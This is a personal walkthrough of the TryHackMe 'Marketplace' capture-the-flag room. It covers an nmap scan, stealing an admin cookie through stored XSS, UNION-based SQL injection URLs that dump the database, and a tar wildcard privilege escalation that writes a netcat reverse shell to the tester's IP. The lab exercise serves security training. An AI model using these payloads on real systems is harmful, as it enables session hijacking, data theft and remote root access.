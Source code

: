 # The Marketplace

This is a write-up for the room on TryHackMe: [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

Nmap scan:&#x20;

```
nmap -T4 -A 10.10.32.69 -oN nmapscan
```

Output of nmap scan:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-02 17:22 EDT
Nmap scan report for 10.10.32.69
Host is up (0.20s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.68 seconds
```

I started off by visiting the main page on port 80:

![](<../../.gitbook/assets/image (293).png>)

There is a robots.txt, which was indicated in the nmap scan:

![](<../../.gitbook/assets/image (294).png>)

This leads to the following:

![](<../../.gitbook/assets/image (295).png>)

The same page is visible for the webserver on port 32768:

![](<../../.gitbook/assets/image (296).png>)

I signed up and made a new listing on the site. I then added **\<script>alert(document.cookie)\</script>**, in the title to see if I can get some information:

![](<../../.gitbook/assets/image (297).png>)

I seem to get a token. I found out that this is JWT or JSON Web Token. When I decoded it, this was my result:

![](<../../.gitbook/assets/image (298).png>)

I believe my next step is to change the payload data to have me be the admin, so I am allowed to view the page. I tried to modify the payload as admin, but I ended up failing. I found [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), that led me to a website: [https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md](https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md). Using the github link, I first **ran the python script** mentioned in the github page, and then I tried the first option:

![](<../../.gitbook/assets/image (299).png>)

I then got this response from the website:

![](<../../.gitbook/assets/image (300).png>)

I then tried it again, this time removing the alert box code:

![](<../../.gitbook/assets/image (301).png>)

I then submitted the listing. Based on the hint from TryHackMe, I then reported this listing to the admins.&#x20;

![](<../../.gitbook/assets/image (302).png>)

At this point, I realized that I was making a mistake, and that I was entering the IP of the server itself, and not my own IP from TryHackMe. I then corrected my javascript:

![](<../../.gitbook/assets/image (303).png>)

When I reported it this time to the admin, I got the cookie using the python script from the GitHub page:

![](<../../.gitbook/assets/image (304).png>)

I entered this in [jwt.io](https://jwt.io/#debugger-io), and got the following result:

![](<../../.gitbook/assets/image (305).png>)

We can see the username of the admin is michael. I then logged out of the account. I then logged in using credentials I had made previously, **test:test**, and when the following prompt came up in burpsuite (I used the burpsuite browser for this part), I modified it to use the cookie of the admin:&#x20;

![](<../../.gitbook/assets/image (306).png>)

I was then in:

![](<../../.gitbook/assets/image (307).png>)

In order to access **/admin**, you have to manually force the admin cookie in bupsuite. After I did that, I got to the following site:

![](<../../.gitbook/assets/image (308).png>)

I did the same for the **Administration Panel**, and got the first flag:

![](<../../.gitbook/assets/image (309).png>)

I see that jake is also an administrator. After a while, viewing [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), made me realize that I should focus more on the SQL Injection than the user jake. Using the same write-up I ended up finding about the following web query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),3,4
```

This led to the output that tolds what table names there are:

![](<../../.gitbook/assets/image (310).png>)

Running the following web query led to the column names:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()),3,4
```

![](<../../.gitbook/assets/image (311).png>)

From the write-up, the author then went on to make this query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+message_content+FROM+messages+WHERE+ID=1),3,4
```

This led to the following output:

![](<../../.gitbook/assets/image (312).png>)

This seems to be the SSH password for a user. The credentials worked for jake:

![](<../../.gitbook/assets/image (313).png>)

The user.txt file was in the directory you enter in:

![](<../../.gitbook/assets/image (314).png>)

I then ran **sudo -l** to find out what actions we have as a sudoer:

![](<../../.gitbook/assets/image (315).png>)

I found out we have a file we have access to read. We do not have access to edit the file. I found [this website](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/), based on a couple of the write-ups I had read online, that talked about exploiting wildcards for privilege escalation. I followed the commands from the website:

I first ran `cat /etc/cron` and got the following output:

![](<../../.gitbook/assets/image (316).png>)

There does not seem to be anything of importance here, so I moved on to the next step, which was creating a msfvenom payload:

![](<../../.gitbook/assets/image (317).png>)

We then copy the **mkfifo** output (previous image) into the jake user's shell (in the **/opt/backups** directory). I then ran the following commands, going off of [this write-up](https://yebberdog.medium.com/tryhackme-the-marketplace-writeup-3397db0c6dfb):

```c
echo "mkfifo /tmp/rtez; nc 10.2.54.229 4444 0</tmp/rtez | /bin/sh >/tmp/rtez 2>&1; rm /tmp/rtez" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo -u michael ./backup.sh
```

{% hint style="warning" %}
I ran into an issue here where I was not able to backup the files. I kept getting an error, in order to fix it, I moved **backup.tar** to **bkup.tar**. I then ran the **sudo** command once again and got the reverse shell. Source: [https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/)
{% endhint %}

After I ran the aforementioned commands, I had a reverse shell:

![](<../../.gitbook/assets/image (320).png>)

I then spawned a python shell here running the following command, from [this website](https://netsec.ws/?p=337):

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

After I got the shell, I tried to run **sudo -l**, but that did not work out for me. I had to get the shell again and start over. I read [a write-up](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/) and found out we are part of the docker group. I also found out that I made a mistake copying a command from GTFOBins (for the **docker** command):

![](<../../.gitbook/assets/image (321).png>)

I was not supposed to use sudo for this. I was then able to get the flag:

![](<../../.gitbook/assets/image (322).png>)


